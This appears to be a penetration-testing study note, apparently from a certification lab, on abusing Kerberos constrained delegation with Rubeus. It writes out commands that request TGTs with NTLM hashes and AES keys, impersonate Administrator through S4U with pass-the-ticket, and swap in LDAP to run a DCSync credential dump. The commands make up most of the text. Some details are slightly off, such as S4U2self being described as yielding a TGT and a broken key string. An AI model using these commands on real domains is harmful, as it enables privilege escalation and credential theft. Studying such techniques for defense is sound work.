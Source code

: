 For ==Rubeus==, we use the `asktgt` module to request the TGT tickets for the **_“websvc”_** .This step ==uses the S4U2self extension that allows a service to obtain a forwardable TGT on behalf of a user.== -

```bash
rubeus.exe asktgt /user:userName /domain:DomainName /ntlm:Hash /outfile:FileName.tgt
```

![[Pasted image 20230214214409.png]]

After obtaining the TGT tickets from the domain controller, we can now request service tickets for the allowed services, i.e., **CIFS** , or alternate services like **LDAP** or **WMI**.

To request service tickets (TGS) for the allowed services, we will use the **s4u** module in Rubeus and the obtained TGT tickets in the previous step. The msdsspn value is the value of the `msDS-AllowedToDelegateTo` attribute we found earlier in the enumeration steps.

The SPN for the **websvc** account is _“CIFS/dcorp-mssql”,_ and the impersonated user is Administrator.

```bash
.\Rubeus.exe s4u /ticket:TGT_Ticket /msdsspn:"service/HOST" /impersonateuser:Administrator /ptt
```

![[Pasted image 20230214214729.png]]

• To abuse Constrained delegation using Rubeus, we can use the following command (We are requesting a TGT and TGS in a single command) :

```powershell
Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e87 9470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt
```


We could also ==alternate the allowed services with other services== and perform additional attacks like remotely dumping machine’s credentials.

To do that, we can use the **s4u** module in Rubeus, pass it the delegated SPN “**msdsspn,”** and the service we want to alternate to “**altservice.”** In our case, we can alternate the time service on the domain controller with LDAP to perform the DCSync attack -

```bash
.\Rubeus.exe s4u /ticket:adminsrv.tgt /msdsspn:"TIME/dcorp-DC" /impersonateuser:Administrator  /altservice:LDAP /ptt
```

==Note== -If the SPN configured for constrained delegation only uses the service and host name like www/cdc01.prod.corp1.com, we could modify the TGS to access any service on the system.

On the other hand SPN for the MSSQL server ends with “:1433”, which is not usable for CIFS since it requires an SPN with the format CIFS/cdc01.prod.corp1.com. If we modify the SPN from CIFS/cdc01.prod.corp1.com:1433 to CIFS/cdc01.prod.corp1.com in the command above, Rubeus generates an KDC_ERR_S_PRINCIPAL_UNKNOWN error, indicating that the modified SPN is not registered.

---
##### <mark style="background: #3D7EFFA6;">SUMMARY</mark> -

- Constrained delegation ==allows access only to a particular service on a particular machine which is specified in the in msDS-AllowedToDelegateTo of the service account as ANY user==.
- There is a well known ==risk that not only the service specified but any service using the same service account can be accesssed==.
- For example if msDS-AllowedToDelegateTo specifies CIFS/fileserver.acmecorp we can access both CIFS and other services like HOST,RPCSS,HTTP,WSMAN etc.

---
---